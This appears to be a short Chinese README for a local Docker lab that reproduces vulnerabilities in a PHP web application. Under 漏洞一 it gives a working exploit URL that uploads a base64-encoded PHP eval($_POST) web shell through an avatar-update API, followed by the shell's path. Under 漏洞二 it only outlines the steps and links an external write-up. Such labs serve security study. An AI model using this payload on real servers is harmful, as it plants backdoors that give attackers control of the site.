


## 环境编译
```
docker-compose build
docker-compose up -d
```
## 漏洞一
```
http://127.0.0.1:8001/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgZXZhbCgkX1BPU1RbInBhc3MiXSk7ID8+
```

木马地址
```
http://127.0.0.1:8001/uploadfile/member/0/0x0.php
```


## 漏洞二

先注册登录


然后提交payload


[漏洞连接](http://4o4notfound.org/index.php/archives/40/)

